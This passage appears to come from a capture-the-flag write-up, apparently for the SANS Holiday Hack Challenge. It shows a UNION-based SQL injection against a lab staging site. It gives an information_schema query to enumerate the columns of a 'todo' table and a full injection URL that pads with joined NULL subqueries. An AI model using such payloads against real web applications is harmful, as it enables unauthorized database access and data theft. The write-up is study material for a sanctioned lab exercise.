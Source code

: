 
Executing this injection tells us that there is another table named "todo" in the database.  The MySQL query that would show all the column names for this table is<br>
`SELECT column_name FROM information_schema.columns WHERE table_name='todo'`<br>
which we can inject into the web site as well.

```
https://staging.jackfrosttower.com/detail/1 UNION SELECT * FROM (select NULL)c1 join (SELECT column_name FROM information_schema.columns WHERE table_name='todo')c2 join (select NULL)c3 join (select NULL)c4 join (select NULL)c5 join (select NULL)c6 join (select NULL)c7;--,1
```
??? info "Screenshot"
    ![](image2.png)
